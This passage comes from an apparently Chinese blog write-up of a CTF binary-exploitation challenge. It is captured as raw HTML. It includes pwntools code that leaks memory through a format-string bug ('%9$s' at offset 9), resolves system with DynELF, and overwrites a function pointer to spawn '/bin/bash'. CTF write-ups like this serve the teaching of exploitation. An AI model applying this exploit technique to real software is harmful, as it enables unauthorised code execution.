     print <span class="hljs-string">"proc base"</span>,hex(proc_base)</code></pre>
<p>找到了plt表的基地址，下面就是对于格式化字符串的利用</p>
<h2 id="6格式化字符串">6.格式化字符串</h2>
<p>我们想要知道system的地址，在没有libc的环境下，利用格式化字符串泄露内存地址从而得到system的加载地址</p>
<p>格式化字符串的洞，一开始不知道怎么发现的。但想了一下，格式化字符串的洞必须满足以下条件， <br>
1. 用户的输入必须能打印 <br>
2. 用户输入的字符串在printf函数栈的上方（先压栈）</br></br></p>
<p>就这两个条件我们很快可以分析出漏洞的点就在create &amp; delete 函数 <br>
我们首先create字符串调用delete 此时freeshort地址变成了printf，可以控制打印 <br>
但是我们的参数放在哪里呢？ <br>
我们又发现当输入yes时yes字符串在堆栈的位置正好是printf的上方</br></br></br></p>
<p>下面找一下printf的偏移 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170623110422476?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></br></p>
<p>64位的格式化字符串 <a href="http://blog.csdn.net/qq_31481187/article/details/72510875">参见我的另一篇博客</a> <br>
找到偏移是9 <br>
这时编写leak函数</br></br></p>
<pre class="prettyprint"><code class=" hljs python"><span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">leak</span><span class="hljs-params">(addr)</span>:</span>
    delete_str(<span class="hljs-number">0</span>)
    payload = <span class="hljs-string">'a%9$s'</span>.ljust(<span class="hljs-number">0x18</span>,<span class="hljs-string">'#'</span>) + p64(printf_addr)
    create_str(<span class="hljs-number">0x20</span>,payload)
    sh.recvuntil(<span class="hljs-string">"quit"</span>)
    sh.send(<span class="hljs-string">"delete "</span>)    
    sh.recvuntil(<span class="hljs-string">"id:"</span>)
    sh.send(str(<span class="hljs-number">1</span>)+<span class="hljs-string">'\n'</span>)
    sh.recvuntil(<span class="hljs-string">"?:"</span>)
    sh.send(<span class="hljs-string">"yes.1111"</span>+p64(addr)+<span class="hljs-string">"\n"</span>)  
    sh.recvuntil(<span class="hljs-string">'a'</span>)
    data = sh.recvuntil(<span class="hljs-string">'####'</span>)[:-<span class="hljs-number">4</span>]
    <span class="hljs-keyword">if</span> len(data) == <span class="hljs-number">0</span>:
        <span class="hljs-keyword">return</span> <span class="hljs-string">'\x00'</span>
    <span class="hljs-keyword">if</span> len(data) &lt;= <span class="hljs-number">8</span>:
        <span class="hljs-keyword">print</span> hex(u64(data.ljust(<span class="hljs-number">8</span>,<span class="hljs-string">'\x00'</span>)))
    <span class="hljs-keyword">return</span> data</code></pre>
<h2 id="0x7-泄露system地址并使用">0x7 泄露system地址并使用</h2>
<pre class="prettyprint"><code class=" hljs oxygene">     #<span class="hljs-keyword">step</span> <span class="hljs-number">5</span> leak system addr
    create_str(<span class="hljs-number">0</span>x20,payload)
    delete_str(<span class="hljs-number">1</span>)#this one can <span class="hljs-keyword">not</span> be ignore because DynELF use the delete_str() at <span class="hljs-keyword">begin</span>     
    d = DynELF(leak, base_addr, elf=ELF(<span class="hljs-string">'./pwn-f'</span>))
    system_addr = d.lookup(<span class="hljs-string">'system'</span>, <span class="hljs-string">'libc'</span>)
    print <span class="hljs-string">'system_addr:'</span>+hex(system_addr)

    #<span class="hljs-keyword">step</span> <span class="hljs-number">6</span> recover <span class="hljs-keyword">old</span> <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">to</span> <span class="hljs-title">system</span> <span class="hljs-title">then</span> <span class="hljs-title">get</span> <span class="hljs-title">shell</span>
    <span class="hljs-title">delete_str</span><span class="hljs-params">(0)</span>
    <span class="hljs-title">create_str</span><span class="hljs-params">(0x20,<span class="hljs-string">'/bin/bash;'</span>.ljust(0x18,<span class="hljs-string">'#'</span>)</span>+<span class="hljs-title">p64</span><span class="hljs-params">(system_addr)</span>)#<span class="hljs-title">attention</span> /<span class="hljs-title">bin</span>/<span class="hljs-title">bash</span>;</span> i don`t <span class="hljs-keyword">not</span> why <span class="hljs-keyword">add</span> the <span class="hljs-string">';'</span>
    delete_str(<span class="hljs-number">1</span>)
    sh.interactive()</code></pre>